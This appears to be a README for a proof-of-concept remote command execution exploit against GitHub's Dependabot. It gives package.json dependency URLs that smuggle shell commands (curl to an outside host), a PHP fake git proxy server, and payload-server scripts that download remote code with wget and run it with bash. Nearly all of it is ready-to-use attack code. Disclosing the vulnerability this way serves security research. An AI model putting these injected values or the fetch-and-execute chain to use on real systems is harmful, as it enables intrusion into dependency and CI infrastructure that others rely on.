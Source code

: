 # PoC for dependabot RCE

Add following files to your GitHub repository then `curl mocos.kitchen:3001` will be executed in dependabot server.

You can see your dependabot result from `https://github.com/<USER>/<REPO>/network/updates`.

`package.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "main": "index.js",
  "license": "MIT",
  "private": true,
  "dependencies": {
    "tyage-sample-package": "https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);?/github.com/tyage/sample-package.git#semver:4.0.0"
  }
}
```

`package-lock.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "lockfileVersion": 2,
  "requires": true,
  "dependencies": {
    "tyage-sample-package": {
      "version": "5293ce3ccb70ec547355db2f05eda7a1823eef16"
    }
  }
}
```

`.github/dependabot.yml` (add this file after you prepared the servers!)
```
---
version: 2
updates:
  - package-ecosystem: npm
    directory: "/"
    schedule:
      interval: daily
```


---

# Old PoC requires SSRF

Please replace `mocos.ktichen` to your own server.

## Prepare GitHub Repository

Add following files:

`package-lock.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "lockfileVersion": 2,
  "requires": true,
  "dependencies": {
    "tyage-sample-package": {
      "version": "4.0.0"
    }
  }
}
```

`package.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "main": "index.js",
  "license": "MIT",
  "private": true,
  "dependencies": {
    "tyage-sample-package": "git+https://github.com.mocos.kitchen/github.com/$($(curl$IFS@mocos.kitchen:3000/bash.txt))$(ps)?/github.com/tyage/tyage-sample-package.git#semver:4.0.0"
  }
}
```

`.github/dependabot.yml` (add this file after you prepared the servers!)
```
---
version: 2
updates:
  - package-ecosystem: npm
    directory: "/"
    schedule:
      interval: daily
```

## Prepare Servers

Following servers required.

1. Fake git repository

`https://github.com.mocos.kitchen/github.com/...` should run this PHP file:

```php
<?php
if (!empty($input)) {
  // proxy request to https://github.com/tyage/sample-package.git/git-upload-pack
  $url = "https://github.com/tyage/sample-package.git/git-upload-pack";
  $context = ["http" => [
    "method" => "POST",
    "header" => [ "Content-Type: application/x-git-upload-pack-request" ],
    "content" => $input
  ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-result");
  echo $result;

} else {
  // proxy request to https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack
  $context = ["http" => [ "header" => [] ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $url = "https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack";
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-advertisement");
  echo $result;
}
```

2. Payload server

`http://mocos.kitchen:3000/bash.txt` return this:

```bash
eval `wget mocos.kitchen:3000/payload.txt; bash payload.txt`
```

`http://mocos.kitchen:3000/payload.txt` return this:

```bash
# you can run arbitrary OS command here
echo hello world
```
